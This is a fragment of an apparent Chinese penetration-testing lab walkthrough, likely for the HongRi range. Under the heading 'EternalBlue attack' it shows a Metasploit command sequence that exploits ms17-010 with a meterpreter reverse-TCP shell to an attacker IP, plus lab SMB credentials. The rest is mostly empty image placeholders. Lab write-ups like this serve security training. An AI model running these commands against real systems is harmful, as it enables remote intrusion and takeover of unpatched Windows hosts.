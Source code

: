 ![]( "")  
![]( "")  
![]( "")  
![]( "")  
  
### （三）永恒之蓝攻击  
  
  
使用 msf 针对ms17-010漏洞进行攻击，配置如下：  
  

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.239.198
set LPORT 4444
set RHOST 192.168.52.141
set SMBUser weizi
set SMBPass HONGRISEC@2019
run
```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnhWxXouRERibEhicQibSErZysib4cMLlibIaw1D9AHhxsS0Z4Xp6Tl0U4iaA1lCXRnBiaNRBxSQW2BELMSQ/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  